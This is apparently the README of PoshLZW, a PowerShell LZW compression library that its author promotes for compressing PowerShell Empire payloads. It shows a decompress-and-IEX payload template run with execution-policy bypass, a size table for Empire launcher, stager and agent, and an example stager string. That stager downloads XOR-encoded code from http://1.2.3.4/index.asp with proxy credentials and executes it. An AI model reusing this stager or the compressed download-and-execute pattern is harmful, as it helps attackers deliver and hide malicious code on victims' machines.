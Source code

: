License
-------

DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE 

Version 2, December 2004 
                    
Copyright (C) 2004 Sam Hocevar <sam@hocevar.net> 

Everyone is permitted to copy and distribute verbatim or modified 

copies of this license document, and changing it is allowed as long 

as the name is changed. 

DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE 
           
TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION 

1. You just DO WHAT THE FUCK YOU WANT TO.



Powershell developper ?
-----------------------
I'm far away from a real Powershell developper, so be free to propose improvements and code size reduction tricks.


PoshLZW
--------
`PowerShell LZW` is a LZW compression/decompression library for Powershell 2.0

Usage: Powershell -ExecutionPolicy Bypass -File PoshLZW.ps1 [-Compress|Decompress] [-iCodingSize <size>] [-Datas <datas>]
-Compress       LZW compression
-Decompress     LZW decompression
-iCodingSize    Dictionnary size (9 to 15)
-Datas          Datas to compress (normal string or byte array)
                      or decompress (base64 encoded byte array)
-Test           Test the script

Example: 
 > powershell -ex bypass -f PoshLZW.ps1 -C -i 9 -Da `"Hello dear library`"
   CSQZTYbDeIDIZTCchAbDSYjlCDyA

 > powershell -ex bypass -f PoshLZW.ps1 -De -Da CSQZTYbDeIDIZTCchAbDSYjlCDyA
   Hello dear library

 > powershell
 PS> Import-Module .\PoshLZW.ps1
 PS> $aBytes = [io.file]::ReadAllBytes("testfile.bin");
 PS> $aComp = LZWCompress -sContent $aBytes -iCodingSize 9;
 PS> $sDecomp = LZWDecompress -aCompressed $aComp;
 PS> $aResult =  [System.Text.Encoding]::UTF8.GetBytes($sDecomp);
 PS> [io.file]::WriteAllBytes("testfile-result.bin", $aResult);


Powershell 2.0 ?
----------------
By default, if you wanna have compatility you'll have to use v2.0, as it's the case for PowerShell Empire.


iCodingSize !!?
---------------
LZW work by building a ephemeral dictionnary, feeded then by following bytes. The main idea is to encode bytes not on 8-bits but on iCodingSize-bits (9 to 15).

Why min at 9 ? 'cause less would mean size growth.

Why max at 15 ? Well... why not ;-)

This value is also the maximum size of the dictionnary : 2^iCodingSize-1.

The value is stored in the output at index 0, encoded on 8-bits (a normal byte).


Five functions
---------------
Five Long functions :
* Bits-Shift : a simple bits shifting function that don't fucking exists in Powershell 2 !!?
* Bits-Read : read n-bits from an array of Bytes, at a certain position
* Bits-Write : write n-bits to an array of Bytes, at a certain position
* LZWCompress : Compress
* LZWDecompress : Decompress

These too long functions have been manually shortened to save space:
* bs (for Bits-Shift), 62 bytes long
* bw (for Bits-Write), 247 bytes long
* lzwc (for LZWCompress), 405 bytes long
* br (for Bits-Read), 235 bytes long
* lzwd (for LZWDecompress), 359 bytes long

Could certainly be optimized ;-)


How to use it in your own code
-----------------------------------------
Best used in your own code, with the short version. Copy/paste PoshLZW_short.ps1 content in your own code:
* bs, bw, lzwc functions for compression
* bs, br, lzwd functions for decompression
Don't forget the shortcut '$m_=[math];' ;-)

Here is an exemple of a PowerShell payload that can be used with PowerShell Empire:

A PowerShell payload, that only decompress, will look like :
```
C:\> powershell
PS> Import-Module .\PoshLZW.ps1
PS> # or Import-Module .\PoshLZW_short.ps1
PS> $sMyPayload = "write-host 'My P0wny payload Here !!!';";
PS> $aCompressed = LZWCompress -sContent $sMyPayload -iCodingSize 9;
PS> # or $aCompressed = lzwc $sMyPayload 9;
PS> $sB64Payload = [convert]::ToBase64String($aCompressed);
PS> $sB64Payload;
CTucjSdDKLTQbzmdBAJyaeRAUBgdzdDTgYTybDeYTIICQZTkZRAIZCJx2A==
The payload will then be :
$m_=[math];function bs{...}function br{...}function lzwd{...}IEX(lzwd ([byte[]]([System.Convert]::FromBase64String("CTucjSdDKLTQbzmdBAJyaeRAUBgdzdDTgYTybDeYTIICQZTkZRAIZCJx2A=="))))
```

Then you can also execute the payload in command line : powershell -nop -noni -ex bypass -c here-the-payload.
But take care about the command line max length ;-)


Good rate ?
----------------
Here you'll find a comparison table of different payloads.
* Text : normal ps1 file/payload, without optimisation.
* H : overhead of 701 bytes (LZWDecompress, Bits-Read, Bits-Shift and IEX).
* 9-15 : iCodingSize, meaning encoding size in bits and also dictionnary size.
A way to use compression could be to run "powershell -c H+B64(LZW(T,9))"

 
|                      | Launcher | Stager |  Agent  |
|---------------------:|---------:|-------:|--------:|
|       Text as T      |   418    |  4 909 |  44 041 |
|           B64(T)     | 1 116    | 13 092 | 117 444 |
|           LZW(T,9)   |   387    |  3 740 |  27 878 |
|     H+B64(LZW(T,9)   | 2 051    | 13 877 |  97 516 |
| B64(H+B64(LZW(T,9))  | 5 472    | 37 008 | 260 044 |
|           LZW(T,10)  |   426    |  3 260 |  24 934 |
|     H+B64(LZW(T,10)  | 2 112    | 12 127 |  85 885 |
| B64(H+B64(LZW(T,10)) | 5 632    | 32 340 | 229 028 |
|           LZW(T,11)  |   469    |  3 145 |  20 474 |
|     H+B64(LZW(T,11)  | 2 261    |`11 576`|  72 444 |
| B64(H+B64(LZW(T,11)) | 6 032    | 30 872 | 193 184 |
|           LZW(T,12)  |   511    |  3 373 |  18 312 |
|     H+B64(LZW(T,12)  | 2 237    | 11 600 |  63 583 |
| B64(H+B64(LZW(T,12)) | 5 968    | 30 936 | 169 556 |
|           LZW(T,13)  |   554    |  3 654 |  16 589 |
|     H+B64(LZW(T,13)  | 2 426    | 12 788 | `58 306`|
| B64(H+B64(LZW(T,13)) | 6 472    | 34 104 | 155 484 |
|           LZW(T,14)  |   596    |  3 935 |  17 545 |
|     H+B64(LZW(T,14)  | 2 481    | 13 243 |  59 852 |
| B64(H+B64(LZW(T,14)) | 6 616    | 35 316 | 159 608 |
|           LZW(T,15)  |   639    |  4 216 |  18 798 |
|     H+B64(LZW(T,15)  | 2 611    | 13 944 |  63 437 |
| B64(H+B64(LZW(T,15)) | 6 964    | 37 184 | 169 168 |



Example
-------

Stats
```
$ PS > $text = '$Wc=NEW-ObjEcT SYStEM.Net.WEBCliENT;$u="Test/5.0 (Windows NT 5.1; Trident/1.0;) like Gecko";$wc.HeADerS.ADD("User-Agent",$u);$wc.ProXY = [SYSTem.Net.WEBREQuEsT]::DEFAulTWebPROXY;$WC.PRoxy.CReDEnTIaLS = [SYStEM.NET.CRedEnTiALCACHe]::DEFAulTNetwORKCredenTiaLs;$K="aaaaaaaabbbbbbbbcccccccceeeeeeee";$I=0;[chAr[]]$b=([CHAr[]]($wC.DowNlOaDSTRing("http://1.2.3.4:80/index.asp")))|%{$_-BXoR$k[$i++%$k.LeNgTH]};IEX ($B-jOIn"")';
$ PS > #$text = [System.Text.Encoding]::ASCII.GetString([System.IO.File]::ReadAllBytes("stager.ps1"));
$ PS > #$text = [System.Text.Encoding]::ASCII.GetString([System.IO.File]::ReadAllBytes("agent.ps1"));
$ PS > write-host "|                 Text   |" $text.length
$ PS > write-host "|             B64(Text)  |" ([Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($text))).length
$ PS > foreach ($i in 9..15){
$ PS > 	$lzw = lzwc $text $i;
$ PS > 	write-host "|           LZW(T,$i)  |" $lzw.length;
$ PS > 	$64lzw = [convert]::ToBase64String($lzw);
$ PS > 	$overhead='$m_=[math];function bs{param($v,$s)return $m_::Floor($v*$m_::Pow(2,-$s))}function br{param($o,$c,$a)$p=$i=$e=0;$j=$m_::floor(($t=$a.value)*$c/8);$s=($r=8-(($t*$c)%8))-$c;$b=$m_::Pow(2,$c)-1;while($e-lt$c){$p=$p-bor((bs $o[$j+$i] $s)-band$b);$e+=$r;$r=$m_::max($r,8);$s+=8;$i++}$a.value++;return $p}';
$ PS > function lzwd{param($p)$a=$j=0;$v=@();$e=$o="";$c=$p[0];$p=$p[1..$p.length];foreach($i in 0..255){$v+=[string]([char]$i)}$o+=($w=[string]$v[($j=br $p $c ([ref]$a))]);while([math]::floor($a*$c/8)-lt($p.length-1)){$l=$v.count;$j=br $p $c ([ref]$a);$o+=$v[$j];if($j-lt$l){$e=[string]$v[$j]}elseif($j-eq$l){$e=$w+$w[0]}$v+=$w+$e[0];$w=$e}return $o;}IEX(lzwd ([byte[]]([System.Convert]::FromBase64String("'+$lzw+'"))))';
$ PS > 	write-host "|     H+B64(LZW(T,$i)  |" $overhead.length;
$ PS > 	$b64hz = [convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($overhead));
$ PS > 	write-host "| B64(H+B64(LZW(T,$i)) |" $b64hz.length;
$ PS > }
```

Last word ?
-----------

````
         ///\\\  ( Have Fun )
        ( ^  ^ ) /
      __(  __  )__
     / _ `----' _ \
     \__\   _   |__\
      (..) _| _ (..)
       |____(___|     Mynameisv_ 2016
_ __ _ (____)____) _ _________________________________ _'
````